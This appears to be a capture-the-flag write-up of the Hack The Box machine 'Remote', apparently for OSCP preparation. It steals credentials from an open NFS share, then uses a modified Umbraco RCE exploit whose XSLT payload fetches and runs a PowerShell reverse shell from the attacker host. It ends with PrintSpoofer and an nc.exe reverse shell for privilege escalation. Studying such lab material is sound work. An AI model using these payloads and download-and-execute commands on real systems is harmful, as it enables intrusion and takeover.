 ## Remote

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.180 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/f2a1ecea-e28d-4170-974c-b9c0f79676f5)

<br>

Enumerating directories, we find that umbraco is installed.

```
gobuster dir -u http://remote.htb -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 40
```

![gobuster](https://github.com/b1d0ws/OSCP/assets/58514930/eddf5482-7dc0-407f-babd-68e152a27f07)

<br>

Umbraco has Authenticated RCE.

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/3e6a4155-2354-49ec-a143-86c37b58d29d)

<br>

Looking on other ports, there is a mountable NFS available.  

This NFS has Umbraco settings, so we can read Umbraco.sdf to read credentials. The password is hashes with SHA-1.

```
showmount -e remote.htb
Export list for remote.htb:
/site_backups (everyone)

sudo mkdir /mnt/remote
sudo mount -t nfs remote.htb:site_backups /mnt/remote -o nolock

cp /mnt/remote/App_Data/Umbraco.sdf ~/HTB/Remote

```

![mountNFS](https://github.com/b1d0ws/OSCP/assets/58514930/b753d174-f961-476d-b1cc-d68f6440dcc9)

![umbracoSDF](https://github.com/b1d0ws/OSCP/assets/58514930/4aa49973-6ccd-48f1-a690-172896d3e099)

![crackstation](https://github.com/b1d0ws/OSCP/assets/58514930/bff9c645-916c-46d9-a5b1-7a5b800cbaac)

<br>

With this credentials we can login into Umbraco and get its version.

![umbracoLogin](https://github.com/b1d0ws/OSCP/assets/58514930/892e9548-c3f3-47fa-ab88-400e2e3c61b7)

![umbracoVersion](https://github.com/b1d0ws/OSCP/assets/58514930/6f496a0e-8482-494b-ac4e-c4cf4d9b1a99)

<br>

The version is the same as the RCE, so we can use it.  

Edit the payload and get a reverse shell.

```
searchsploit umbraco
searchsploit -m aspx/webapps/46153.py

# Command
powershell.exe IEX ( IWR http://10.10.14.21:Invoke-PowerShellTcp.ps1 -UseBasicParsing)

# Modify exploit

payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "IEX ( IWR http://10.10.14.21/Invoke-PowerShellTcp.ps1 -UseBasicParsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://remote.htb";

python3 46153.py
```

![exploit](https://github.com/b1d0ws/OSCP/assets/58514930/169fb5e9-eb34-45b0-bb46-69a5bfb1efbd)

![reverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/9b9f194a-ca5a-4005-a8c1-b2bcf5957372)

<br>

### Root Flag

Our user has SeImpersonatePrivilege, so we can abuse it.  

Since the machine is Windows Server 2019, we need to use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or RoguePotato. JuicyPotato doesn't works here.

```
whoami /priv

systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

certutil -urlcache -f http://10.10.14.21/PrintSpoofer64.exe PrintSpoofer64.exe

.\PrintSpoofer64.exe -c "nc.exe 10.10.14.21 3333 -e cmd"
```

![seImpersonatePrivilege](https://github.com/b1d0ws/OSCP/assets/58514930/7023a63a-394a-4807-9005-12f9caa05784)

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/c9cee1b6-bbf1-47d0-83b8-7336aa5d771d)
